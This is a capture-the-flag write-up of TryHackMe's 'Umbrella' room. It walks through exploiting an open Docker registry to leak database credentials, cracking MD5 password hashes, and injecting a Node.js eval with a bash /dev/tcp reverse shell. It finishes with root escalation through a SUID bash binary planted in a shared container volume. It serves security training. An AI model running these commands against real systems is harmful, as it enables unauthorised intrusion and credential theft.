


# Umbrella Writeup ([TryHackMe][1])

#### Breach Umbrella Corp's time-tracking server by exploiting misconfigurations around containerisation.

### Step 1: Enumeration

As per usual, starting with the standard portscan.

```bash
nmap -sV -sC 10.10.31.98

Starting Nmap 7.60 ( https://nmap.org ) at 2024-01-23 13:22 GMT
Nmap scan report for ip-10-10-31-98.eu-west-1.compute.internal (10.10.31.98)
Host is up (0.00092s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
3306/tcp open  mysql   MySQL 5.7.40
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.40
|   Thread ID: 3
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolNew, ODBCClient, LongColumnFlag, Support41Auth, Speaks41ProtocolOld, IgnoreSigpipes, DontAllowDatabaseTableColumn, SupportsTransactions, ConnectWithDatabase, InteractiveClient, LongPassword, SwitchToSSLAfterHandshake, SupportsLoadDataLocal, FoundRows, IgnoreSpaceBeforeParenthesis, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: {\ ?\x08qjAR\x1A\x08\x18&#O\x06-\x0Ci\x19
|_  Auth Plugin Name: 79
5000/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
8080/tcp open  http    Node.js (Express middleware)
|_http-title: Login
MAC Address: 02:47:57:07:72:C9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have our standard `ssh` port. More interesting, however, is the `MySQL` server as well as the `docker` registry. And finally, there is also a `node.js` powered Login page.

I started with `MySQL`

### Step 1a: Enumerating MySQL

Nmap knows plenty of mysql scripts. Thus I used a few to see if anything shows up.

```bash
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum 10.10.31.98

Starting Nmap 7.60 ( https://nmap.org ) at 2024-01-23 13:29 GMT
Nmap scan report for ip-10-10-31-98.eu-west-1.compute.internal (10.10.31.98)
Host is up (0.00020s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.7.40
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
MAC Address: 02:47:57:07:72:C9 (Unknown)
```

That seems to be too easy.

```bash
root@ip-10-10-214-222:~# mysql -u root -h 10.10.31.98
ERROR 1045 (28000): Access denied for user 'root'@'10.10.214.222' (using password: NO)
root@ip-10-10-214-222:~# mysql -u root -h 10.10.31.98 -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'10.10.214.222' (using password: YES)
root@ip-10-10-214-222:~# mysql -u user -h 10.10.31.98
ERROR 1045 (28000): Access denied for user 'user'@'10.10.214.222' (using password: NO)
root@ip-10-10-214-222:~# mysql -u test -h 10.10.31.98
ERROR 1045 (28000): Access denied for user 'test'@'10.10.214.222' (using password: NO)
root@ip-10-10-214-222:~# mysql -u web -h 10.10.31.98
ERROR 1045 (28000): Access denied for user 'web'@'10.10.214.222' (using password: NO)
```

I was expecting this. Thus, I used metasploit and tried a few more scripts (credit to [Hacktricks]([3306 - Pentesting Mysql - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#hacktricks-automatic-commands))).

```bash
root@ip-10-10-214-222:~# msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_version; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_authbypass_hashdump; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/admin/mysql/mysql_enum; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_hashdump; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_schemadump; set RHOSTS 10.10.31.98; set RPORT 3306; run; exit' 
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
RHOSTS => 10.10.31.98
RPORT => 3306
[+] 10.10.31.98:3306      - 10.10.31.98:3306 is running MySQL 5.7.40 (protocol 10)
[*] 10.10.31.98:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
RHOSTS => 10.10.31.98
RPORT => 3306
[+] 10.10.31.98:3306      - 10.10.31.98:3306 The server allows logins, proceeding with bypass test
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 10% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 20% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 30% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 40% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 50% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 60% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 70% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 80% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 90% complete
[*] 10.10.31.98:3306      - 10.10.31.98:3306 Authentication bypass is 100% complete
[-] 10.10.31.98:3306      - 10.10.31.98:3306 Unable to bypass authentication, this target may not be vulnerable
[*] 10.10.31.98:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
RHOSTS => 10.10.31.98
RPORT => 3306
[*] Running module against 10.10.31.98
[-] 10.10.31.98:3306 - Access denied
[*] Auxiliary module execution completed
RHOSTS => 10.10.31.98
RPORT => 3306
[-] 10.10.31.98:3306      - Access denied
[*] 10.10.31.98:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
RHOSTS => 10.10.31.98
RPORT => 3306
[-] 10.10.31.98:3306      - Access denied
[*] 10.10.31.98:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Nothing to see here. 

### Step 1b: Enumerating docker registry

As I got stuck with the MySQL server, I moved on to the docker registry.

```bash
root@ip-10-10-214-222:~# curl -s 10.10.31.98:5000/v2
<a href="/v2/">Moved Permanently</a>.

root@ip-10-10-214-222:~# curl -k 10.10.31.98:5000/v2/_catalog
{"repositories":["umbrella/timetracking"]}
```

Great. We found the umbrella repository and no authentication is required.

One can read the manifest file by simply using `curl`.

```bash
curl -s 10.10.31.98:5000/v2/umbrella/timetracking/manifests/latest
{
   "schemaVersion": 1,
   "name": "umbrella/timetracking",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
        [snip]
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=N[redacted]5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"node\",\"app.js\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":null},\"container\":\"527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9\",\"container_config\":{\"Hostname\":\"527e55a70a33\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=N[redacted]5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"node\\\" \\\"app.js\\\"]\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":{}},\"created\":\"2022-12-22T10:03:08.042002316Z\",\"docker_version\":\"20.10.17\",\"id\":\"7aec279d6e756678a51a8f075db1f0a053546364bcf5455f482870cef3b924b4\",\"os\":\"linux\",\"parent\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"parent\":\"0f4399d82c47d9cecdf2518e3ecb523bbd1936d4a45d4230f1184d81b2b4b40c\",\"created\":\"2022-12-22T10:03:07.855078938Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  EXPOSE 8080\"]},\"throwaway\":true}"
      },
        [snip]
```

If you look closely through the history, you can find the DB password and username.

Using the password directly gives an error message, as it interferes with bash but we can simply supply the `-p` tag and then enter (or copy) the password.

```bash
mysql -u root -p "N[redacted]5" -h 10.10.31.98
bash: !Pe7: event not found
root@ip-10-10-214-222:~# mysql -u root -p -h 10.10.31.98
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2049
Server version: 5.7.40 MySQL Community Server (GPL)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

And here we go, we got access to the MySQL database. That surely was quite a misconfiguration in the docker registry.

### Step 1c: MySQL and cracking passwords

Now that we have root access to the MySQL database we want to have an overview over the database.

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| timetracking       |
+--------------------+
5 rows in set (0.00 sec)

mysql> use timetracking;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_timetracking |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
4 rows in set (0.00 sec)

mysql> 
```

Well, that looks like some hashed passwords. I couldn't find a salt somewhere in the database, so I assumed they are unsalted. Thus, I went on with John the Ripper to crack the passwords.

```bash
john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt passwords 
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (?)
sunshine1        (?)
Password1        (?)
sandwich         (?)
```

At this point I thought it is time to check out the webserver on port 8080.

### Step 1d: Logging in and initial foothold

I opened my firefox and were greeted with the login page.



After entering any of the credentials from above, I got access to the time tracking dashboard.

 

The "Pro Tip" already gives us a hint what to do next. If you can use mathematical expressions, the underlying app/script certainly uses some kind of `eval` function. Adding to the misconfiguration of the site, if you submit a string, the website returns the full error trace.

```js
ReferenceError: Show is not defined
    at eval (eval at <anonymous> (/usr/src/app/app.js:71:33), <anonymous>:1:1)
    at /usr/src/app/app.js:71:33
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/usr/src/app/node_modules/express/lib/router/index.js:346:12)
    at next (/usr/src/app/node_modules/express/lib/router/index.js:280:10)
    at Immediate._onImmediate (/usr/src/app/node_modules/express-session/index.js:506:7)
```

I learned two things from this error message. First, the `eval` function is called. Second, the app is stored at `/usr/src/app/app.js`.

If there are no further security measures in place, I can get a reverse shell by simply sending the following command:

```bash
bash -i >& /dev/tcp/10.0.2.74/9999 0>&1
```

Of course, even with the eval function, nodejs wouldn't just do system calls. Thus, the complete command to issue in the form (or via Burp) is:

```bash
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.2.74/9999 0>&1"')
```

And with `netcat` listening on port 9999, we got our foothold.

```bash
root@de0610f51845:/usr/src/app# ls
ls
app.js
node_modules
package-lock.json
package.json
public
views
root@de0610f51845:/usr/src/app# whoami
whoami
root
```

Being root sounds good but we know that we are only in a docker container. The next step will be to break out of the container environment and accessing the server.

### Step 2: I want to break free

I was looking through each and every folder but I could not find anything useful. The usual docker escape routes through **capabilites** and **docker socket** didn't work at all and I got pretty stuck.

After way too long, I finally got the idea to test the user:password combinations with `ssh`.

```bash
ssh claire-r@10.10.127.231

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

[snip]

claire-r@ctf:~$ ls -la
total 36
drwxr-xr-x 4 claire-r claire-r 4096 Jan 29 10:17 .
drwxr-xr-x 4 root     root     4096 Dec 22  2022 ..
-rw------- 1 claire-r claire-r   61 Sep 22 18:26 .bash_history
-rw-r--r-- 1 claire-r claire-r  220 Dec 22  2022 .bash_logout
-rw-r--r-- 1 claire-r claire-r 3771 Dec 22  2022 .bashrc
drwx------ 2 claire-r claire-r 4096 Jan 29 10:17 .cache
-rw-r--r-- 1 claire-r claire-r  807 Dec 22  2022 .profile
drwxrwxr-x 6 claire-r claire-r 4096 Dec 22  2022 timeTracker-src
-rw-r--r-- 1 claire-r claire-r   38 Dec 22  2022 user.txt
```

Well, that was embarrassingly easy. And we found our user flag.

There is even the source code of the webapp, so I wouldn't have to figure out the `eval` part on my own. 

```bash
claire-r@ctf:~$ cd timeTracker-src/
claire-r@ctf:~/timeTracker-src$ ls -la
total 108
drwxrwxr-x 6 claire-r claire-r  4096 Dec 22  2022 .
drwxr-xr-x 4 claire-r claire-r  4096 Jan 29 10:17 ..
-rw-rw-r-- 1 claire-r claire-r  3237 Dec 22  2022 app.js
drwxrwxr-x 2 claire-r claire-r  4096 Dec 22  2022 db
-rw-rw-r-- 1 claire-r claire-r   398 Dec 22  2022 docker-compose.yml
-rw-rw-r-- 1 claire-r claire-r   295 Dec 22  2022 Dockerfile
-rw-rw-r-- 1 claire-r claire-r    17 Dec 22  2022 .gitignore
drwxrw-rw- 2 claire-r claire-r  4096 Dec 22  2022 logs
-rw-rw-r-- 1 claire-r claire-r   385 Dec 22  2022 package.json
-rw-rw-r-- 1 claire-r claire-r 63965 Dec 22  2022 package-lock.json
drwxrwxr-x 3 claire-r claire-r  4096 Dec 22  2022 public
drwxrwxr-x 2 claire-r claire-r  4096 Dec 22  2022 views
```

After some time of trying to escalate privileges, I stumbled accross the logs folder in the `timeTracker-src` folder. The same folder was located in the docker container.

```bash
claire-r@ctf:~/timeTracker-src$ cd logs
claire-r@ctf:~/timeTracker-src/logs$ ls
tt.log
```

```bash
root@de0610f51845:/logs# ls -la
ls -la
total 12
drwxrw-rw- 2 1001 1001 4096 Dec 22  2022 .
drwxr-xr-x 1 root root 4096 Dec 22  2022 ..
-rw-r--r-- 1 root root  300 Jan 29 09:20 tt.log
```

I created a testfile within the docker container and it showed up in claires folder.

```bash
root@de0610f51845:/logs# touch test.txt
```

```bash
claire-r@ctf:~/timeTracker-src/logs$ ls -la
total 12
drwxrw-rw- 2 claire-r claire-r 4096 Jan 29 10:25 .
drwxrwxr-x 6 claire-r claire-r 4096 Dec 22  2022 ..
-rw-r--r-- 1 root     root        0 Jan 29 10:25 test.txt
-rw-r--r-- 1 root     root      300 Jan 29 09:20 tt.log
```

Since I am root in the container. The easiest way of escalating our privileges is to use the SUID bit.

For that to work, I copied the bash binary into the container and set the SUID bit.

```bash
root@de0610f51845:/logs# cp /bin/bash .
cp /bin/bash .
root@de0610f51845:/logs# ls -la
ls -la
total 1220
drwxrw-rw- 2 1001 1001    4096 Jan 29 10:36 .
drwxr-xr-x 1 root root    4096 Dec 22  2022 ..
-rwxr-xr-x 1 root root 1234376 Jan 29 10:36 bash
-rw-r--r-- 1 root root       0 Jan 29 10:25 test.txt
-rw-r--r-- 1 root root     300 Jan 29 09:20 tt.log
root@de0610f51845:/logs# chmod u+s bash       
chmod u+s bash
root@de0610f51845:/logs# ls -la
ls -la
total 1220
drwxrw-rw- 2 1001 1001    4096 Jan 29 10:36 .
drwxr-xr-x 1 root root    4096 Dec 22  2022 ..
-rwsr-xr-x 1 root root 1234376 Jan 29 10:36 bash
-rw-r--r-- 1 root root       0 Jan 29 10:25 test.txt
-rw-r--r-- 1 root root     300 Jan 29 09:20 tt.log
```

Now, I have to run bash as root from `claire-r`.

```bash
claire-r@ctf:~/timeTracker-src/logs$ ls -la
total 1220
drwxrw-rw- 2 claire-r claire-r    4096 Jan 29 10:36 .
drwxrwxr-x 6 claire-r claire-r    4096 Dec 22  2022 ..
-rwsr-xr-x 1 root     root     1234376 Jan 29 10:36 bash
-rw-r--r-- 1 root     root           0 Jan 29 10:25 test.txt
-rw-r--r-- 1 root     root         300 Jan 29 09:20 tt.log
claire-r@ctf:~/timeTracker-src/logs$ ./bash -p
bash-5.1# whoami
root
```

And this is it. The root flag is located as always.

```bash
bash-5.1# cat /root/root.txt
THM{1***************************2}
```

### Final thoughts

I think I did this room a bit differently than it was planned and I wasted quite some time before I `ssh`ed into the machine.

Nonetheless, I finally managed to escalate my privileges and that's what counts after all. 

#### A nice room showing some of the dangers of using misconfigured docker environments.

[1]: https://tryhackme.com/room/umbrella
